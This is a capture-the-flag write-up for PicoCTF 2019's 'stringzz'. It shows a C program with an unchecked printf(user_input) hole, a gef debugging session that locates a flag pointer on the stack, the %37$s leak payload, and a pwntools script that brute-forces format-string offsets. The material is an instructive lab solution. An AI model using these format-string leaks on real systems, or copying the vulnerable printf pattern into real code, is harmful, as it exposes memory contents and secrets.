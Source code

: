 ```yaml
---
title: Leak all the stack
description: Leak all the stack using a format string attack.
---
```


# Format string - Leak all the stack

## Summary

Two ways :

1. Find the exact offset of the data we want to leak.
2. Bruteforce the stack until we get the right offset.

Both methods work very well, only the first is more instructive.

## Challenge

### Statement

!!! note ""
    Challenge : `stringzz` from PicoCTF 2019.

Use a format string to pwn this [program](https://2019shell1.picoctf.com/static/31d401db5c499308034d1795794324ad/vuln) and get a flag.

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAG_BUFFER 128
#define LINE_BUFFER_SIZE 2000

void printMessage3(char *in)
{
  puts("will be printed:\n");
  printf(in);
}
void printMessage2(char *in)
{
  puts("your input ");
  printMessage3(in);
}

void printMessage1(char *in)
{
  puts("Now ");
  printMessage2(in);
}

int main (int argc, char **argv)
{
    puts("input whatever string you want; then it will be printed back:\n");
    int read;
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);
    //There is no win function, but the flag is wandering in the memory!
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    printMessage1(input);
    fflush(stdout);

}
```

## Answer

The content of the file is located inside the heap, but there is a pointer to the content of the `flag.txt` file inside the stack. So by using `%s`, the format string will display the string pointed by this address.

(For testing purposes, I created the `flag.txt` file with the content `FLAG{gg}`.)

We can find this address in the stack by setting a breakpoint on the call of the vulnerable `printf` function.

```
gef➤  disass printMessage3
Dump of assembler code for function printMessage3:
   0x000006ed <+0>:     push   ebp
   0x000006ee <+1>:     mov    ebp,esp
   0x000006f0 <+3>:     push   ebx
   0x000006f1 <+4>:     sub    esp,0x4
   0x000006f4 <+7>:     call   0x5f0 <__x86.get_pc_thunk.bx>
   0x000006f9 <+12>:    add    ebx,0x18bb
   0x000006ff <+18>:    sub    esp,0xc
   0x00000702 <+21>:    lea    eax,[ebx-0x1684]
   0x00000708 <+27>:    push   eax
   0x00000709 <+28>:    call   0x570 <puts@plt>
   0x0000070e <+33>:    add    esp,0x10
   0x00000711 <+36>:    sub    esp,0xc
   0x00000714 <+39>:    push   DWORD PTR [ebp+0x8]
   0x00000717 <+42>:    call   0x520 <printf@plt>
   0x0000071c <+47>:    add    esp,0x10
   0x0000071f <+50>:    nop
   0x00000720 <+51>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x00000723 <+54>:    leave
   0x00000724 <+55>:    ret
End of assembler dump.
gef➤  b *(printMessage3+42)
- Breakpoint 1 at 0x717
```

Let's run the program and find where the flag is located using the command `grep`.

```
gef➤  grep "FLAG{gg}"
[+] Searching 'FLAG{gg}' in memory
[+] In '[heap]'(0x56558000-0x5657a000), permission=rw-
  0x56558a40 - 0x56558a4a  →   "FLAG{gg}\n"
  0x56558c10 - 0x56558c1a  →   "FLAG{gg}\n"
```

As you can see, the content of `flag.txt` is stored on the heap, but lets try to find `0x56558a40` or `0x56558c10` in the stack.

```
gef➤  x/50xw $sp
0xffffd1c0:     0x565585b0      0x0000000a      0x00000004      0x565556f9
0xffffd1d0:     0x00000001      0x56556fb4      0xffffd1f8      0x56555755
0xffffd1e0:     0x565585b0      0x56555995      0x56555993      0x56555731
0xffffd1f0:     0x00000001      0x56556fb4      0xffffd218      0x5655578e
0xffffd200:     0x565585b0      0x56555993      0x00000001      0x5655576a
0xffffd210:     0x00000001      0x56556fb4      0xffffd268      0x5655584d
0xffffd220:     0x565585b0      0x00000080      0x56558ad0      0x565557ae
0xffffd230:     0x00000001      0xf7fddab0      0x00000000      0xffffd324
0xffffd240:     0xf7f993bc      0x56556fb4      0xffffd32c      0x00000078
0xffffd250:     0x565585b0    > 0x56558a40 <    0x56558ad0      0x0b337100
0xffffd260:     0xffffd280      0x00000000      0x00000000      0xf7dc7a0d
0xffffd270:     0x00000001      0x565555b0      0x00000000      0xf7dc7a0d
0xffffd280:     0x00000001      0xffffd324
gef➤  x/s 0x56558a40
0x56558a40:     "FLAG{gg}\n"
```

As you can see, there is our address inside `> <`.
`0x56558a40` is a the 37th place in the stack, so we can retrieve it using `%37$s`.

```
$ ./vuln
input whatever string you want; then it will be printed back:

%37$s
Now
your input
will be printed:

FLAG{gg}
```

---

The other way to solve this challenge is using bruteforce :

Source code (solve.py) :

```python
#!/usr/bin/env python3
from pwn import process, log, context

PROGRAM = "./vuln"
DELIM = b"input whatever string you want; then it will be printed back:\n"

data = b""
i = 0
while b"FLAG{" not in data:
    log.info(f"Trying n°{i} ...")

    with context.local(log_level="error"):
        proc = process(PROGRAM)
        proc.sendlineafter(DELIM, f"%{i}$s".encode())
        proc.recvuntil(b"will be printed:\n\n")
        data = proc.recvall()

    log.info(f"Data : {data}")
    i += 1
```

Execution :

```
$ echo 'FLAG{gg}' > flag.txt
$ python3 solve.py
[*] Trying n°0 ...
[*] Data : b'%0$s\n'
[*] Trying n°1 ...
[*] Data : b''
[*] Trying n°2 ...
[*] Data : b''
[*] Trying n°3 ...
[*] Data : b'\x81\xc3\xbb\x18\n'
[...]
[*] Trying n°35 ...
[*] Data : b''
[*] Trying n°36 ...
[*] Data : b'%36$s\n\n'
[*] Trying n°37 ...
[*] Data : b'FLAG{gg}\n\n'
```